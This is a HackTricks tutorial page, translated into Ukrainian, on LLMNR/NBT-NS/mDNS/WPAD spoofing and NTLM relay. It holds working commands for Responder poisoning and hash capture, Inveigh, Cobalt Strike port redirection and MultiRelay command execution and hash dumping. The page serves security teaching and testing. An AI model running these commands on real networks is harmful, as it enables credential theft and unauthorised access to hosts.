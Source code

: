 # Підроблення LLMNR, NBT-NS, mDNS/DNS та WPAD та атаки релею

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання AWS Red Team Expert (ARTE) від HackTricks**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання GCP Red Team Expert (GRTE) від HackTricks**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Протоколи мережі

### Протоколи локального вирішення хоста
- **LLMNR, NBT-NS та mDNS**:
- Microsoft та інші операційні системи використовують LLMNR та NBT-NS для локального вирішення імен при невдачі DNS. Так само, Apple та Linux системи використовують mDNS.
- Ці протоколи піддаються перехопленню та підробленню через їх невпізнану, розповсюджену природу через UDP.
- [Responder](https://github.com/lgandx/Responder) може бути використаний для підроблення служб шляхом відправлення підроблених відповідей на хости, які запитують ці протоколи.
- Додаткову інформацію про підроблення служб за допомогою Responder можна знайти [тут](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Протокол автоматичного відкриття веб-проксі (WPAD)
- WPAD дозволяє браузерам автоматично відкривати налаштування проксі.
- Відкриття здійснюється через DHCP, DNS або в разі невдачі - через LLMNR та NBT-NS.
- Responder може автоматизувати атаки WPAD, направляючи клієнтів на зловмисні сервери WPAD.

### Responder для отруєння протоколів
- **Responder** - це інструмент, який використовується для отруєння запитів LLMNR, NBT-NS та mDNS, відповідаючи вибірково на типи запитів, переважно спрямованих на служби SMB.
- Він поставляється заздалегідь в Kali Linux, налаштовується в `/etc/responder/Responder.conf`.
- Responder відображає захоплені хеші на екрані та зберігає їх у каталозі `/usr/share/responder/logs`.
- Підтримує як IPv4, так і IPv6.
- Версія Responder для Windows доступна [тут](https://github.com/lgandx/Responder-Windows).

#### Запуск Responder
- Для запуску Responder зі стандартними налаштуваннями: `responder -I <Інтерфейс>`
- Для більш агресивного сканування (з можливими побічними ефектами): `responder -I <Інтерфейс> -P -r -v`
- Техніки захоплення викликів/відповідей NTLMv1 для полегшення розкриття: `responder -I <Інтерфейс> --lm --disable-ess`
- Підроблення WPAD може бути активоване за допомогою: `responder -I <Інтерфейс> --wpad`
- Запити NetBIOS можуть бути розрішені на IP атакуючого, і може бути налаштований аутентифікаційний проксі: `responder.py -I <інтерфейс> -Pv`

### Отруєння DHCP за допомогою Responder
- Підроблення відповідей DHCP може постійно отруїти інформацію маршрутизації жертви, пропонуючи більш прихований альтернативний варіант отруєння ARP.
- Це вимагає точного знання конфігурації мережі цільової мережі.
- Запуск атаки: `./Responder.py -I eth0 -Pdv`
- Цей метод може ефективно захоплювати хеші NTLMv1/2, але вимагає обережного обходу для уникнення розриву мережі.

### Захоплення облікових даних за допомогою Responder
- Responder буде підробляти служби за допомогою вищезгаданих протоколів, захоплюючи облікові дані (зазвичай виклик/відповідь NTLMv2), коли користувач намагається аутентифікуватися проти підроблених служб.
- Можливі спроби зниження до NetNTLMv1 або вимкнення ESS для полегшення розкриття облікових даних.

Важливо зауважити, що використання цих технік повинно бути здійснене законно та етично, забезпечуючи належну авторизацію та уникнення розриву або несанкціонованого доступу.

## Inveigh

Inveigh - це інструмент для пентестерів та команд червоних команд, призначений для систем Windows. Він пропонує функціональність, схожу на Responder, виконуючи підроблення та атаки людини посередника. Інструмент еволюціонував з PowerShell скрипту до бінарного файлу C#, з [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) та [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) як основні версії. Детальні параметри та інструкції можна знайти в [**вікі**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh може бути запущений через PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Або виконано як C# бінарний файл:
```bash
Inveigh.exe
```
### Атака перехоплення NTLM

Ця атака використовує сеанси аутентифікації SMB для доступу до цільової машини, що надає системну оболонку у разі успіху. Основні передумови включають:
- Користувач, який аутентифікується, повинен мати локальний адміністративний доступ на пересиланому хості.
- Підпис SMB повинен бути вимкнений.

#### Перенаправлення та тунелювання порту 445

У випадках, коли пряме введення в мережу неможливе, потрібно перенаправити та тунелювати трафік на порту 445. Інструменти, такі як [**PortBender**](https://github.com/praetorian-inc/PortBender), допомагають перенаправити трафік порту 445 на інший порт, що є важливим, коли доступний локальний адміністративний доступ для завантаження драйверів.

Налаштування та робота PortBender в Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Інші Інструменти для Атаки NTLM Relay

- **Metasploit**: Налаштування з проксі, локальними та віддаленими даними хосту.
- **smbrelayx**: Скрипт на Python для передачі сеансів SMB та виконання команд або розгортання задніх дверей.
- **MultiRelay**: Інструмент з набору Responder для передачі конкретних користувачів або всіх користувачів, виконання команд або виведення хешів.

Кожен інструмент може бути налаштований на роботу через проксі-сервер SOCKS у разі необхідності, що дозволяє здійснювати атаки навіть з опосередкованим мережевим доступом.

### Операція MultiRelay

MultiRelay запускається з каталогу _**/usr/share/responder/tools**_, спрямовуючи конкретні IP-адреси або користувачів.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Примусові входи NTLM

У Windows ви **можете змусити деякі привілейовані облікові записи аутентифікуватися на довільних машинах**. Прочитайте наступну сторінку, щоб дізнатися як:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Посилання
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
